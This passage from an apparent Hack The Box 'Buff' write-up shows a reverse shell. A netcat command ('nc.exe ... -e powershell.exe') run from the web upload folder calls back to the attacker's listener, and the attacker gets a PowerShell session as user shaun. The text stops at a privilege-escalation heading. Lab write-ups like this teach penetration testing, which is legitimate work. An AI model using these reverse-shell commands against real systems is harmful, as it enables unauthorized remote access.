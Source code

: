 ```
28/05/2021  18:36            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,998,971,904 bytes free

C:\xampp\htdocs\gym\upload> 
```

Now we need to set up a listener and get a reverse connection via `nc.exe`.

```
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.57 443 -e powershell.exe
```

```
┌──(root💀nehal)-[~]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.135.106] 49757
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> whoami
whoami
buff\shaun
PS C:\xampp\htdocs\gym\upload>
```

And we have shell as `Shaun`. You can read the user flag now.

![](assets/img/buff-htb/meme-2.gif)

Allright, it's time for privilege escalation.

# [](#header-1)PRIVILEGE ESCALATION :
